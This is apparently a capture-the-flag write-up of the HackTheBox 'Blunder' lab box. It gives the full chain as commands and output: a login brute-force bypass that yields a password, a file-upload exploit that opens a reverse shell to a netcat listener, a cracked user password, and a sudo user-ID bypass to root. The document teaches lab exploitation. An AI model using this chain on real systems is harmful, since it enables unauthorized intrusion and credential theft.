 ```yaml
---
title: Blunder
description: Blunder box from HackTheBox write up.
---
```


# Blunder

## Nmap

Like always time for a Nmap scan.

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- --min-rate=1000 10.10.10.191
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-22 16:57 CET
Nmap scan report for 10.10.10.191
Host is up (0.052s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE  SERVICE
21/tcp closed ftp
80/tcp open   http

Nmap done: 1 IP address (1 host up) scanned in 103.37 seconds

┌──(kali㉿kali)-[~]
└─$ sudo nmap -p 80 -sC -sV 10.10.10.191
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-22 17:00 CET
Nmap scan report for 10.10.10.191
Host is up (0.049s latency).

PORT   STATE  SERVICE VERSION
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Blunder | A blunder of interesting facts
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Blunder

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.30 seconds
```

## Port 80

Let's see what a directory bruteforce can say about the page.

```bash
┌──(kali㉿kali)-[~]
└─$ feroxbuster -u http://10.10.10.191/ -w Wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt -x php ,txt -B

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.2
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.191/
 🚀  Threads               │ 50
 📖  Wordlist              │ Wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.2
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php, , txt]
 🏦  Collect Backups       │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        0l        0w        0c http://10.10.10.191/admin => http://10.10.10.191/admin/
200      GET      170l      918w     7562c http://10.10.10.191/
403      GET        9l       28w      277c http://10.10.10.191/.php
200      GET        1l        5w       30c http://10.10.10.191/install.php
200      GET      105l      303w     3281c http://10.10.10.191/about
401      GET        0l        0w        0c http://10.10.10.191/admin/ajax
200      GET      170l      918w     7562c http://10.10.10.191/0
200      GET        2l        4w       22c http://10.10.10.191/robots.txt
200      GET        4l       23w      118c http://10.10.10.191/todo.txt
403      GET        9l       28w      277c http://10.10.10.191/server-status
200      GET       21l      171w     1083c http://10.10.10.191/LICENSE
200      GET      110l      387w     3960c http://10.10.10.191/usb
[####################] - 29m   240069/240069  0s      found:12      errors:160
```

According with the files and the administration login, this is a Bludit CMS. That `todo.txt` thing looks interesting:

```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

Hmm, I will note the name `fergus` since it is maybe a valid user. The CMS version looks like it is 3.9.2 according with some of the CSS files, searching for vulnerabilities I found some canditates.

```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit BLUDIT      
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Bludit  3.9.2 - Authentication Bruteforce Mitigation Bypass                        | php/webapps/48746.rb
Bludit - Directory Traversal Image File Upload (Metasploit)                        | php/remote/47699.rb
Bludit 3.13.1 - 'username' Cross Site Scripting (XSS)                              | php/webapps/50529.txt
Bludit 3.9.12 - Directory Traversal                                                | php/webapps/48568.py
Bludit 3.9.2 - Auth Bruteforce Bypass                                              | php/webapps/48942.py
Bludit 3.9.2 - Authentication Bruteforce Bypass (Metasploit)                       | php/webapps/49037.rb
Bludit 3.9.2 - Directory Traversal                                                 | multiple/webapps/48701.txt
bludit Pages Editor 3.0.0 - Arbitrary File Upload                                  | php/webapps/46060.txt
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The interesting one here is the bruteforce bypass, using Cewl I got a custom wordlist of the page and using `fergus` as the username I started the attack:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Blunder]
└─$ python3 CVE-2019-17240.py -l http://10.10.10.191/admin/ -u users.txt -p passwords.txt 
[*] Bludit Auth BF Mitigation Bypass Script by ColdFusionX 
     
[◑] Brute Force: Testing -> fergus:CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
[ ] Brute Force: Testing -> fergus:the
...
[↓] Brute Force: Testing -> fergus:Contribution
[*] Brute Force: Testing -> fergus:Letters
[▝] Brute Force: Testing -> fergus:probably
[v] Brute Force: Testing -> fergus:best
[┌] Brute Force: Testing -> fergus:fictional
[\] Brute Force: Testing -> fergus:character
[o] Brute Force: Testing -> fergus:RolandDeschain

[*] SUCCESS !!
[+] Use Credential -> fergus:RolandDeschain
```

Cool! Now we can abuse CVE-2019-16113 to get shell into the system.

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Blunder]
└─$ ./CVE-2019-16113.py 
[+] Loggin successful.
[+] Token CSRF: 99113db248585aa181ff61762743a627f9d1fa34
[+] Shell upload succesful.
[+] .htaccess upload succesful.
[+] Command Execution Successful.

┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8000                           
listening on [any] 8000 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.10.191] 43076
bash: cannot set terminal process group (1285): Inappropriate ioctl for device
bash: no job control in this shell
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$
```

## In the box

### From `www-data` to `hugo`

The first part of the escalation was easy, in the file `/var/www/bludit-3.10.0a/bl-content/databases` I found a hash that can be cracked. I now have credentials for the user `hugo`:

```
hugo:Password120
```

### Pwned!

The user `hugo` can execute `/bin/bash` as any user but `root`.

```bash
hugo@blunder:~$ sudo -l
Password: 
Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

At least that is the idea of the configuration. The `sudo` version installed is vulnerable to the CVE-2019-14287, allowing us to get `root` access:

```bash
hugo@blunder:~$ sudo -u#-1 /bin/bash
Password: 
root@blunder:/home/hugo#
```

